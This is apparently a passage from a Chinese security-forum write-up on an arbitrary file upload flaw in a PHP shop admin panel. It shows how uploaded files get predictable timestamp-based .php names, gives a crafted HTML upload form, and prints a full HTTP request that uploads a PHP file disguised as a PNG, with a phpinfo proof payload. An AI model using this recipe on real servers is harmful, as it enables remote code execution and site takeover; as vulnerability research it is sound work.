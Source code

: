 文件名

```php
$filename=date(&quot;His&quot;);  //小时+分钟+秒
```

以我现在21点05分钟为例，输出结果如下

![image-20210526210650296](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-47af59104db05b8e731d4cf34f3471be9200b3b6.png)

以2021年5月26日的21点05分44秒为例

完整的文件路径即为

```php
http://www.xxx.com/res/upload/2021-05-26/210444.php
```

直接构造表单

```html
&lt;meta charset=&quot;utf-8&quot;&gt;
&lt;form action=&quot;http://xxx.top/Admin/products/imgurlajax&quot; method=&quot;post&quot; enctype=&quot;multipart/form-data&quot;&gt;
    &lt;label for=&quot;file&quot;&gt;File:&lt;/label&gt;
    &lt;input type=&quot;file&quot; name=&quot;file&quot; id=&quot;file&quot; /&gt;
    &lt;input type=&quot;text&quot; name=&quot;pid&quot; id=&quot;pid&quot; /&gt;  &lt;--! pid记得自行修改为商品的id(后台选择商品抓包即可获取)--&gt;&lt;/--!&gt;
    &lt;input type=&quot;submit&quot; value=&quot;Upload&quot; /&gt;
&lt;/form&gt;
```

同时需要添加Referer: [http://xxx.top/Admin/products/imgurl/?id=1,并修改下方的](http://xxx.top/Admin/products/imgurl/?id=1,%E5%B9%B6%E4%BF%AE%E6%94%B9%E4%B8%8B%E6%96%B9%E7%9A%84)

否则会提示“请选择商品id”

最后完整的上传http request如下

```http
POST http://xxx.top/Admin/products/imgurlajax HTTP/1.1
Host: xxxx
Content-Length: 291
Accept: application/json, text/javascript, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryeSrhtSPGxub0H0eb
Origin: http://47.105.132.207
Referer: http://xxx.top/Admin/products/imgurl/?id=12
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=ql4ep5uk8cf9i0rvihrruuilaq
Connection: close

------WebKitFormBoundaryeSrhtSPGxub0H0eb
Content-Disposition: form-data; name=&quot;file&quot;; filename=&quot;test.php&quot;
Content-Type: image/png

&lt;?php
    phpinfo();
------WebKitFormBoundaryeSrhtSPGxub0H0eb
Content-Disposition: form-data; name=&quot;pid&quot;

12
------WebKitFormBoundaryeSrhtSPGxub0H0eb--
```
